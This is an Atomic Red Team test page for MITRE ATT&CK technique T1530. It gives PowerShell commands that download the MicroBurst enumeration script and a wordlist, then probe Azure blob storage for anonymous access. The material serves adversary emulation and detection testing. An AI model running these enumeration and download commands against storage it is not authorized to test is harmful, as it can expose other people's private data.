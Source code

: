# T1530 - Data from Cloud Storage Object
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1530)
<blockquote>Adversaries may access data objects from improperly secured cloud storage.

Many cloud service providers offer solutions for online data storage such as Amazon S3, Azure Storage, and Google Cloud Storage. These solutions differ from other storage solutions (such as SQL or Elasticsearch) in that there is no overarching application. Data from these solutions can be retrieved directly using the cloud provider's APIs. Solution providers typically offer security guides to help end users configure systems.(Citation: Amazon S3 Security, 2019)(Citation: Microsoft Azure Storage Security, 2019)(Citation: Google Cloud Storage Best Practices, 2019)

Misconfiguration by end users is a common problem. There have been numerous incidents where cloud storage has been improperly secured (typically by unintentionally allowing public access by unauthenticated users or overly-broad access by all users), allowing open access to credit cards, personally identifiable information, medical records, and other sensitive information.(Citation: Trend Micro S3 Exposed PII, 2017)(Citation: Wired Magecart S3 Buckets, 2019)(Citation: HIPAA Journal S3 Breach, 2017) Adversaries may also obtain leaked credentials in source repositories, logs, or other means as a way to gain access to cloud storage objects that have access permission controls.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Enumerate Azure Blobs with MicroBurst](#atomic-test-1---azure---enumerate-azure-blobs-with-microburst)

- [Atomic Test #2 - Azure - Scan for Anonymous Access to Azure Storage (Powershell)](#atomic-test-2---azure---scan-for-anonymous-access-to-azure-storage-powershell)


<br/>

## Atomic Test #1 - Azure - Enumerate Azure Blobs with MicroBurst
Upon successful execution, this test will utilize a wordlist to enumerate the public facing containers and blobs of a specified Azure storage account. 
See https://www.netspi.com/blog/technical/cloud-penetration-testing/anonymously-enumerating-azure-file-resources/ .

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 3dab4bcc-667f-4459-aea7-4162dd2d6590





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| base | Azure blob keyword to enumerate (Example, storage account name) | String | secure|
| output_file | File to output results to | String | $env:temp&#92;T1530Test1.txt|
| wordlist | File path to keywords for search permutations | String | $env:temp&#92;permutations.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
import-module "$env:temp\Invoke-EnumerateAzureBlobs.ps1"
Invoke-EnumerateAzureBlobs -base #{base} -permutations #{wordlist} -outputfile "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Invoke-EnumerateAzureBlobs module must exist in $env:temp.
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\Invoke-EnumerateAzureBlobs.ps1){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/156c4e9f4253b482b2b68eda4651116b9f0f2e17/Misc/Invoke-EnumerateAzureBlobs.ps1" -outfile "$env:temp\Invoke-EnumerateAzureBlobs.ps1"
```
##### Description: The wordlist file for search permutations must exist in $env:temp.
##### Check Prereq Commands:
```powershell
if (test-path #{wordlist}){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/156c4e9f4253b482b2b68eda4651116b9f0f2e17/Misc/permutations.txt" -outfile "#{wordlist}"
```




<br/>
<br/>

## Atomic Test #2 - Azure - Scan for Anonymous Access to Azure Storage (Powershell)
Upon successful execution, this test will test for anonymous access to Azure storage containers by invoking a web request and outputting the results to a file. 
The corresponding response could then be interpreted to determine whether or not the resource/container exists, as well as other information. 
See https://ninocrudele.com/the-three-most-effective-and-dangerous-cyberattacks-to-azure-and-countermeasures-part-2-attack-the-azure-storage-service

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 146af1f1-b74e-4aa7-9895-505eb559b4b0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| base_name | Azure storage account name to test | String | T1530Test2|
| output_file | File to output results to | String | $env:temp&#92;T1530Test2.txt|
| container_name | Container name to search for (optional) | String | |
| blob_name | Blob name to search for (optional) | String | |


#### Attack Commands: Run with `powershell`! 


```powershell
try{$response = invoke-webrequest "https://#{base_name}.blob.core.windows.net/#{container_name}/#{blob_name}" -method "GET"}
catch [system.net.webexception]
{if($_.Exception.Response -ne $null)
{$Response = $_.Exception.Response.GetResponseStream()
$ReadResponse = New-Object System.IO.StreamReader($Response)
$ReadResponse.BaseStream.Position = 0
$responseBody = $ReadResponse.ReadToEnd()}
else {$responseBody = "The storage account could not be anonymously accessed."}}
"Response received for #{base_name}.blob.core.windows.net/#{container_name}/#{blob_name}: $responsebody" | out-file -filepath #{output_file} -append
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```





<br/>
